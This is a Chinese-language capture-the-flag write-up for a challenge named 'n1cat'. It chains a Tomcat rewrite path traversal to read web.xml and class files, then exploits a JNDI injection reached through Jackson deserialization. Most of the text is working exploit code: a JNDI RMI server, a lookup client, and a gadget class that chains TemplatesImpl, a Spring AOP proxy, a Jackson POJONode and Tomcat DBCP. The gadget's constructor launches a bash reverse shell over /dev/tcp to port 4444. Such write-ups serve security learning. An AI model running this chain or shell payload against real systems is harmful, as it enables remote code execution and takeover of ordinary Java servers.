






## n1cat

附件给了重写规则

```toml
RewriteCond %{QUERY_STRING} (^|&)path=([^&]+)
RewriteRule ^/download$ /%2 [B,L]
```

可以确认是 CVE-2025-55752，可以直接读取到 web.xml

```toml
http://127.0.0.1:8080/download?path=%2fWEB-INF%2fweb.xml
```

内容如下

```xml
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd" version="4.0">
  <servlet>
    <servlet-name>welcomeServlet</servlet-name>
    <servlet-class>ctf.n1cat.welcomeServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>welcomeServlet</servlet-name>
    <url-pattern>/</url-pattern>
  </servlet-mapping>
</web-app>
```

读取 class 内容

```java
//http://127.0.0.1:8080/download?path=%2fWEB-INF%2fclasses%2fctf%2fn1cat%2fwelcomeServlet.class

package ctf.n1cat;

import com.fasterxml.jackson.core.JsonProcessingException;
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.node.ObjectNode;
import java.io.IOException;
import java.io.PrintWriter;
import java.net.URLEncoder;
import java.nio.charset.StandardCharsets;
import javax.servlet.RequestDispatcher;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

/* JADX INFO: loaded from: download.class */
@WebServlet(name = "welcomeServlet", value = {"/"})
public class welcomeServlet extends HttpServlet {
    private static final String DEFAULT_NAME = "guest";
    private static final String DEFAULT_WORD = "welcome";
    private static final ObjectMapper OBJECT_MAPPER = new ObjectMapper();

    /* JADX INFO: Thrown type has an unknown type hierarchy: javax.servlet.ServletException */
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String requestUri = request.getRequestURI();
        String contextPath = request.getContextPath();
        String pathWithinApp = requestUri.substring(contextPath.length());
        if (shouldDelegate(pathWithinApp)) {
            delegateToDefaultResource(pathWithinApp, request, response);
            return;
        }
        String jsonPayload = request.getParameter("json");
        String nameParam = request.getParameter("name");
        String wordParam = request.getParameter("word");
        String urlParam = request.getParameter("url");
        if (isBlank(jsonPayload) && !isBlank(nameParam) && !isBlank(wordParam)) {
            ObjectNode composed = OBJECT_MAPPER.createObjectNode();
            composed.put("name", nameParam);
            composed.put("word", wordParam);
            if (!isBlank(urlParam)) {
                composed.put("url", urlParam);
            }
            jsonPayload = composed.toString();
        }
        if (isBlank(jsonPayload)) {
            response.sendRedirect(defaultRedirectTarget(request));
            return;
        }
        try {
            User user = (User) OBJECT_MAPPER.readValue(jsonPayload, User.class);
            String name = user.getName();
            String word = user.getWord();
            String url = user.getUrl();
            if (isBlank(name) || isBlank(word)) {
                response.sendRedirect(defaultRedirectTarget(request));
            } else {
                renderResponse(response, name, word, url);
            }
        } catch (RuntimeException e) {
            response.sendError(400, "Invalid user data");
        } catch (JsonProcessingException e2) {
            response.sendError(400, "Invalid JSON payload");
        }
    }

    private boolean shouldDelegate(String pathWithinApp) {
        return (pathWithinApp == null || pathWithinApp.isEmpty() || "/".equals(pathWithinApp)) ? false : true;
    }

    private void delegateToDefaultResource(String pathWithinApp, HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        RequestDispatcher defaultDispatcher = getServletContext().getNamedDispatcher("default");
        if (defaultDispatcher != null) {
            defaultDispatcher.forward(request, response);
        } else {
            request.getRequestDispatcher(pathWithinApp).forward(request, response);
        }
    }

    private void renderResponse(HttpServletResponse response, String name, String word, String url) throws IOException {
        response.setContentType("text/html;charset=UTF-8");
        PrintWriter out = response.getWriter();
        try {
            out.println("<html><body>");
            out.println("<h1>" + escapeHtml(name) + "</h1>");
            out.println("<p>" + escapeHtml(word) + "</p>");
            if (!isBlank(url)) {
                out.println("<p>URL: " + escapeHtml(url) + "</p>");
            }
            out.println("</body></html>");
            if (out != null) {
                out.close();
            }
        } catch (Throwable th) {
            if (out != null) {
                try {
                    out.close();
                } catch (Throwable th2) {
                    th.addSuppressed(th2);
                }
            }
            throw th;
        }
    }

    private String escapeHtml(String input) {
        if (input == null) {
            return "";
        }
        return input.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("\"", "&quot;").replace("'", "&#x27;");
    }

    private String defaultRedirectTarget(HttpServletRequest request) {
        return request.getContextPath() + "/?name=" + urlEncode(DEFAULT_NAME) + "&word=" + urlEncode(DEFAULT_WORD);
    }

    private boolean isBlank(String value) {
        return value == null || value.trim().isEmpty();
    }

    private String urlEncode(String value) {
        return URLEncoder.encode(value, StandardCharsets.UTF_8);
    }
}
```

主要漏洞代码在这里

```java
User user = (User) OBJECT_MAPPER.readValue(jsonPayload, User.class);
```

jackson 会进行多态反序列化，读取一下 User 类看看

```java
// http://127.0.0.1:8080/download?path=%2fWEB-INF%2fclasses%2fctf%2fn1cat%2fUser.class

//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

package ctf.n1cat;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class User {
    private String name;
    private String word;
    private String url;

    public String getName() {
        return this.name;
    }

    public String getWord() {
        return this.word;
    }

    public void setWord(String password) {
        this.word = password;
    }

    public void setName(String name) throws NamingException {
        this.name = name;
    }

    public String getUrl() {
        return this.url;
    }

    public void setUrl(String url) {
        try {
            (new InitialContext()).lookup(url);
        } catch (NamingException e) {
            throw new RuntimeException(e);
        }
    }
}
```

setUrl 方法可以打 JNDI 注入，Jackson 反序列化默认触发 setter 方法，高版本 JDK 需要打gadget，这里打 SpringAop+jackson的那条
使用的 pom.xml

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>ctf.n1cat</groupId>
    <artifactId>n1cat-jndi</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>17</maven.compiler.source>
        <maven.compiler.target>17</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>9.0.108</version>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-dbcp</artifactId>
            <version>9.0.108</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.30.2-GA</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-aop</artifactId>
            <version>5.3.33</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-beans</artifactId>
            <version>5.3.33</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>5.3.33</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-jcl</artifactId>
            <version>5.3.33</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.19.2</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-core</artifactId>
            <version>2.19.2</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-annotations</artifactId>
            <version>2.19.2</version>
        </dependency>
    </dependencies>

    <build>
        <sourceDirectory>${project.basedir}</sourceDirectory>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <version>3.13.0</version>
                <configuration>
                    <includes>
                        <include>org/example/gadget.java</include>
                        <include>org/example/JndiServer.java</include>
                    </includes>
                    <compilerArgs>
                        <arg>--add-modules=jdk.naming.rmi</arg>
                        <arg>--add-exports=jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xml.internal.dtm=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xml.internal.serializer=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED</arg>
                    </compilerArgs>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```

设置配置项

```java
//VM options:
--add-modules jdk.naming.rmi --add-exports jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED --add-opens=java.base/sun.nio.ch=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=jdk.unsupported/sun.misc=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.base/java.lang.reflect=ALL-UNNAMED --add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED

// Program arguments:
127.0.0.1 1099 n1cat /Users/baozongwi/IdeaProjects/n1cat/target/classes/org/example/gadget.class
```

JNDI server 如下

```java
package org.example;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JndiServer {
    public static void main(String[] args) throws Exception {
        if (args.length < 4) {
            System.err.println("Usage: JndiServer <bindHost> <port> <name> <gadget.class path>");
            return;
        }

        String bindHost = args[0];
        int port = Integer.parseInt(args[1]);
        String name = args[2];
        String gadgetClassPath = args[3];

        Reference reference = gadget.buildReference(gadgetClassPath);

        System.setProperty("java.rmi.server.hostname", bindHost);
        Registry registry = LocateRegistry.createRegistry(port);
        registry.bind(name, new ReferenceWrapper(reference));

        System.out.printf("[+] Bound rmi://%s:%d/%s%n", bindHost, port, name);
        System.out.println("[+] JNDI server is ready");
        Thread.sleep(Long.MAX_VALUE);
    }
}
```



JNDI Client 如下

```java
package org.example;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.spi.NamingManager;
import java.util.Hashtable;

public class JndiLookupClient {
    public static void main(String[] args) throws Exception {
        String uri = "rmi://127.0.0.1:1099/n1cat";

        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        try {
            Object result = new InitialContext(env).lookup(uri);
            Object object = NamingManager.getObjectInstance(result, null, null, env);
        } catch (Throwable t) {
            t.printStackTrace(System.out);
        }
    }
}
```

配置如下

```java
//VM options:
--add-modules=jdk.naming.rmi --add-exports=jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED --add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc=ALL-UNNAMED --add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.lang.reflect=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/sun.nio.ch=ALL-UNNAMED --add-opens=jdk.unsupported/sun.misc=ALL-UNNAMED

//Program arguments：
127.0.0.1 1099 n1cat /Users/baozongwi/IdeaProjects/n1cat/target/classes/org/example/gadget.class
rmi://127.0.0.1:1099/n1cat
```



gadget 如下，但是其实 JNDI 不能直接触发`ObjectInputStream.readObject()`，这里找到`org.apache.tomcat.dbcp.dbcp2.datasources.InstanceKeyDataSourceFactory.deserialize`来触发


gadget 如下

```java
package org.example;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;
import sun.misc.Unsafe;

import javax.naming.BinaryRefAddr;
import javax.naming.Reference;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Vector;

public class gadget extends AbstractTranslet {
    public gadget() {
        this.transletVersion = CURRENT_TRANSLET_VERSION;
        this.namesArray = new String[0];
        this.urisArray = new String[0];
        this.typesArray = new int[0];
        this.namespaceArray = new String[0];

        new Thread(() -> {
            String[][] commands = {
                    {"/bin/bash", "-c", "bash -i >& /dev/tcp/host.docker.internal/4444 0>&1"},
                    {"/bin/sh", "-c", "touch /tmp/success"}
            };
            for (String[] command : commands) {
                try {
                    Process process = new ProcessBuilder(command).start();
                    if (command[2].contains("/dev/tcp/")) {
                        break;
                    }
                    if (process.waitFor() == 0) {
                        break;
                    }
                } catch (Throwable ignored) {
                }
            }
        }, "rev-shell").start();
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public static Reference buildReference(String gadgetClassPath) throws Exception {
        patchModule(gadget.class);
        byte[] payload = buildSerializedPayload(gadgetClassPath);

        Reference reference = new Reference(
                "org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource",
                "org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSourceFactory",
                null
        );
        reference.add(new BinaryRefAddr("jndiEnvironment", payload));
        reference.add(new BinaryRefAddr("perUserDefaultAutoCommit", payload));
        return reference;
    }

    private static byte[] buildSerializedPayload(String gadgetClassPath) throws Exception {
        byte[] evilBytes;
        try (FileInputStream fis = new FileInputStream(gadgetClassPath)) {
            evilBytes = fis.readAllBytes();
        }

        ClassPool pool = ClassPool.getDefault();
        TemplatesImpl templates = new TemplatesImpl();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();

        setFieldValue(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setFieldValue(templates, "_name", "Pwnd");
        setFieldValue(templates, "_transletIndex", 0);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        Object proxyTemplates = buildStableProxy(templates);
        POJONode jsonNode = new POJONode(proxyTemplates);

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Field editsField = getField(undoManager.getClass(), "edits");
        editsField.setAccessible(true);
        Vector edits = (Vector) editsField.get(undoManager);
        edits.add(jsonNode);
        setFieldValue(listenerList, "listenerList", new Object[]{Class.class, undoManager});

        try (ByteArrayOutputStream bos = new ByteArrayOutputStream();
             ObjectOutputStream oos = new ObjectOutputStream(bos)) {
            oos.writeObject(listenerList);
            return bos.toByteArray();
        }
    }

    private static Object buildStableProxy(Object templatesImpl) throws Exception {
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> constructor = clazz.getDeclaredConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        return Proxy.newProxyInstance(
                clazz.getClassLoader(),
                new Class[]{Templates.class, Serializable.class},
                handler
        );
    }

    private static void patchModule(Class<?> clazz) throws Exception {
        Unsafe unsafe = getUnsafe();
        long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.putObject(clazz, offset, Object.class.getModule());
    }

    private static Unsafe getUnsafe() throws Exception {
        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        return (Unsafe) field.get(null);
    }

    private static Field getField(Class<?> clazz, String name) {
        while (clazz != null) {
            try {
                return clazz.getDeclaredField(name);
            } catch (NoSuchFieldException ignored) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }

    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        if (field == null) {
            throw new NoSuchFieldException(fieldName);
        }
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```



调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:552)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:587)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:608)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:569)
at org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(AopUtils.java:344)
at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:234)
at jdk.proxy1.$Proxy0.getOutputProperties(Unknown Source:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:569)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:688)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:760)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:183)
at com.fasterxml.jackson.databind.SerializerProvider.defaultSerializeValue(SerializerProvider.java:1185)
at com.fasterxml.jackson.databind.node.POJONode.serialize(POJONode.java:117)
at com.fasterxml.jackson.databind.node.InternalNodeMapper$WrapperForSerializer._serializeNonRecursive(InternalNodeMapper.java:104)
at com.fasterxml.jackson.databind.node.InternalNodeMapper$WrapperForSerializer.serialize(InternalNodeMapper.java:84)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:39)
